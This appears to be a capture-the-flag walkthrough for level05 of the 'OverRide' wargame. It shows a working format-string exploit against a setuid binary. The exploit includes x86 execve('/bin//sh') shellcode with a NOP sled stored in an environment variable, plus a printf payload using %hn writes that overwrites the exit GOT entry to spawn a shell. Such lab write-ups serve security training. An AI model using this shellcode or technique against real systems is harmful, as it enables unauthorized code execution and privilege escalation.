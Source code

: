 Level05 protections:
```Shell
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

Level05 rights:
```Shell
level05@OverRide:~$ ls -la level05 
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

```Shell
export SHELLCODE=`python -c 'print("\x90" * 100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'`
```

```Shell
(gdb)  x/s *((char **)environ)
0xffffd8d6: "SHELLCODE=1\311\367\341\260\vQh//shh/bin\211\343̀"    
```

%[second part]d %hn %[first part - number of character already print]d %hn

```Shell
level05@OverRide:~$ objdump -R level05 
[...]
080497e0 R_386_JUMP_SLOT   exit
```

```Shell
level05@OverRide:~$ ./level05 
AAAA %10$p
aaaa 0x61616161
```

```Shell
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55450d" + "%10$hn" + "%10077d" + "%11$hn")'; cat) | ./level05
```